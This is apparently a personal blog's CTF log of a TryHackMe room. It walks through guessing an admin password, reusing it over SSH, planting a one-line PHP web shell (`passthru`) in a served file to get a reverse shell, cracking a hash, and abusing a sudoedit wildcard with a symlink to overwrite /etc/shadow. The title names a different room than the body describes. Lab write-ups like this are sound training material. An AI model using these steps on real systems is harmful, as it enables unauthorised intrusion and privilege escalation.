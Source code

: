 ```yaml
---
layout: post
title: CTF Log - Year of the Jellyfish {THM}
description: A log of how I did the TryHackMe room Year of the Jellyfish by Muirland Oracle
summary: A log of the THM room "Year of the Jellyfish"
tags: ctf log
minute: 5
---
```

<br/>

> {{ page.description }}

<br/>

# Year of the Pig
## Password Guessing
The portscan results came back with just the ports: 22, 80. So I navigate to the web server and poke around. 

It looks like a simple blog a person named `marco`. They like planes. 

I'm able to manually find the `/admin/` directory which redirects me to a login page. After submitting incorrect credentials to capture a login request in Burpsuite, the page displays this message:

```
Remember that passwords should be a memorable word, followed by two numbers and a special character.
```

I go back to read through the site's content and find that marco's favorite plane is the Savoia M.21. I was able to guess the password based on this information.

Once confirming that the password functions against the web server's login page. I check for password reuse against the SSH server and it works. This is why you don't reuse passwords folks. 

## Lateral Privesc & Website Database

From within the web server's admin panel, I notice that there's another user named `curtis`. Since I have access to the machine, I want to look through the website's database to get access to curtis's password hash. 

Since `www-data` is the only user with access to the `admin.db` file, I need to achieve command execution as the web server. Fortunately, marco has write privileges to PHP files actively being served by the website. 

I add `passthru($_GET["c"]);` to the end of `adduser.php`'s PHP code section, then use Burpsuite repeater to send a reverse shell to that endpoint. 

With a shell on the server as `www-data`, I'm now able to download the `admin.db` file. Using `strings` on it reveals curtis's password hash. I toss it an online rainbow table and get his password. 

Using marco's SSH session I'm able to `su` as curtis.

## Sudoedit Double Wildcard Filepath
The first thing I do with a session as curtis is sudo -l and what do you know, this is the output: 

```ansi
Matching Defaults entries for curtis on year-of-the-pig:                                                                                                                             
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"                                             
	
User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php
```

So I use my shell as `www-data` to make a symbolic link to `/etc/shadow` at `/var/www/html/assets/fonts/config.php`. Sudoedit is then able to write to the `/etc/shadow` file. 

I replace the `root` hash with a known SHA512 and successfully root the box.